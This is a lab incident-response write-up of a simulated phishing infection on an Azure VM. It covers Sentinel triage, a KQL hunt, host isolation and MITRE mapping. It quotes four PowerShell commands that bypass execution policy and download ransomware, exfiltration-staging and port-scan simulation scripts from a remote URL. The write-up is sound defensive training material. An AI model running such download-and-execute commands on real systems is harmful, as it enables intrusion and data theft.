






# Incident Response Mini-Case: Suspicious PowerShell Web Request on Azure VM

## Executive Summary

On **2025-11-19 at 16:31 UTC** the analytics rule **"Bartek - PowerShell Suspicious Web Request"** in Microsoft Sentinel fired with **High** severity.

Investigation showed that a user had clicked on a phishing email pretending to be from a trusted vendor, downloaded a "free" tool and, as a result, executed **four different PowerShell scripts** (`pwncrypt.ps1`, `eicar.ps1`, `exfiltratedata.ps1`, `portscan.ps1`) on their workstation.

The scripts simulated ransomware, data exfiltration with internal port scanning. The host was isolated, scanned and only brought back online after it was confirmed clean. No real data was stolen and no lateral movement was observed.

The user was enrolled in additional phishing training, phishing detection controls were tuned, and a new policy restricting PowerShell usage for non-essential users was initiated.

> Note: This is a **lab scenario** based on a realistic workflow, not a production breach.

---

## Scenario / Context

On **2025-11-19 at 16:31**, the SOC received a **High** severity Sentinel incident:

> Any `powershell.exe` process containing "Invoke-WebRequest" in the last 24 hours.

Inital tirage showed:
- All suspicious commands originated form **one host** (`vm-bartek`)
- They were executed under a **sungle user account**
- Each command downloaded a different PowerShell script to `C:\ProgramData\`

I claimed the incident and set its status to **Active**.

> _Screenshot:_ Sentinel incident overview

> 

---

## Tools & Data Sources

- **Microsoft Sentinel** - incident, investigation graph, KQL queries,
- **Microsoft Defender for Endpoint (MDE)** - device page, AV scans, isolation,
- **Microsoft Azure** - VM / environment context,
- K**usto Query Language (KQL)** - analysis in `DeviceProcessEvents`.

---

## Detection & Triage

The four commands that triggered the alert looked like this:

```text
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1

"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1`

"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1

"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
```

> The scripts contents are not included here, but can be reviewed directly from the URLs above. They are lab-safe and do not perform real damage, but simulate realistic attacker behavior.

> _Screenshot:_ KQL query catching `Invoke-WebRequest` + 4 rows of events `

> 

---

## Investigation Steps

### 1. Understand user action

I contacted the user to ask what they were doing around the time of the alert.
They reported installing a "free tool" from an email that **looked like it came from a known vendor**. A black console window flashed a few times and then "nothing happened".

This matched the behavior expected from the four observed PowerShell downloads.

### 2. Confirm script execution

Next, I used KQL in `DeviceProcessEvent`s to check whether the downloaded scripts were actually executed:

```kql
let TargetHostname = "vm-bartek";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by Timestamp
| project Timestamp, AccountName, DeviceName, FileName, ProcessCommandLine
```

The query nofirmed that all four scripts were run on the host

> _Screenshot:_ query + results table showing four `powershell.exe -ExecutionPolicy Bypass -File C:\programdata\*.ps1` executions.

> 

### 3. Script behavior (high level)

I manually reviewed the four downloaded PowerShell scripts to understand what they were doing. I focused on:
- which files they created or modified,
- whether they downloaded any additional tools,
- whether they tried to reach out to external IPs/domains,
- any signs of persistence or credential theft.

- `pwnscrypt.ps1` - generates fake employee data, encrypts it and drops a rensom note on the desktop (ransomware simulation),
- `eicar.ps1` - gcreates the standard EICAR test file to validate AV detection,
- `exfiltratedata.ps1` - generates fake data of employees, silently downloads 7-Zip, archives the data and stores it in a hidden location (simulating staging for exfiltration),
- `portscan.ps1` - performs a basic internal port scan against well-known ports.

_Important:_ in the provided lab scripts **no data is actually exfiltrated**, but in a real-world equivalent a similar chain could easily push archives to an external C2 server.

> Deeper script-by-script hunts and analysis will be done as seperate mini-projects.

> _Screenshot:_ Sentinel investigation graph - incident -> 4 commands -> `vm-bartek`

> 

---

## Condensed Timeline (Lab Scenario)

- **2025-11-18 [16:13]** - First suspicious PowerShell script executed.
- **2025-11-18 [16:25-16:49]** - Remaining three scripts executed on the same host (ransomware sim, EICAR, port scan, data-staging).
- **2025-11-19 [16:31]** - Sentinel analytics rule **"PowerShell Suspicious Web Request"** fires (High severity) and creates the incident.
- **2025-11-20 [10:33]** - Incident is assigned and set to `Active`; KQL investigation confirms cript execution.
- **2025-11-20 [10:39]** - Host isolated in MDE and AV scan started.
- **2025-11-20 [11:07]** - Scan returns clean; malicious scripts and artifacts removed; host realeased from isolation
- **2025-11-20 [11:10]** - Incident closed as True Positive - Suspicious activity; user scheduled for extra training; follow-up actions created.

---

## Containment & Eradication

**1. Host isolation & scan**
- Isolated the affected host in **Microsoft Defender for Endpoint**,
- Ran a full antivitus scan - no additional malware was detected.

>_Screenshot:_ MDE device page (risk level High, exposure Medium, isolation / AV actions visible)

>

**2. Cleanup**
- Removed the downloaded scripts, generated artifacts and test files.
- Verified scheduled tasks / startup items to ensure no persistence was left.

**3. Return to service**
- Once the host was confirmed clean, it was released from isolation and returned to normal operation.

> _Screenshot:_ Sentinel incident closing dialog - status Closed, True Positive - Suspicious activity, analyst comment

> 

---

## Lessons Learned & Recommendations

- **User training**
  - The affected user was enrolled in additional phishing-awareness training.
  - The organisation's security awareness package (e.g. KnowBe4) was updated to include similar vendor-themed lures.
- **Email / phishing controls**
  - The phishing email was forwarded to the security engineering team to:
    - improve phishing detection and blocking,
    - tune rules for lookalike vendor domains and suspicious links.
- **PowerShell usage policy**
  - Start rolling out a policy that restricts **PowerShell** to:
    - admins and power-users who truly need it,
    - tightly controlled, logged and monitored use on other endpoints.
- **Monitoring**
  - Keep and refine the **Invoke-WebRequest** detection rule.
  - Add additional detections for:
    - `-ExecutionPolicy Bypass`
    - suspicious script execution from unusual paths (e.g. `C:\ProgramData\`).

---

## MITRE ATT&CK

- **T1566.002 - Phishing: Spearphishing Link**
  User clicked a malicious link in an email that pretended to come from a known vendor.
- **T1059.001 - Command and Scripting Interpreter: PowerShell**
  Malicious behavior implemented via PowerShell scripts executed with `-ExecutionPolicy Bypass`.
- **T1105 - Ingress Tool Transfer**
  Scripts downloaded additional tooling (e.g. 7-Zip) onto the host.
- **T1564.001 - Hide Artifacts: Hidden Files and Directories**
  Data and archives stored in hidden locations on disk.
- **T1560 - Archive Collected Data**
  Collected (simulated) data was zipped before potential exfiltration
- **T1119 - Automated Collection**
  Scripts automatically generated and prepared data for staging.
- **T1046 - Network Service Discover**
  Internal port scanning to discover reachable services.
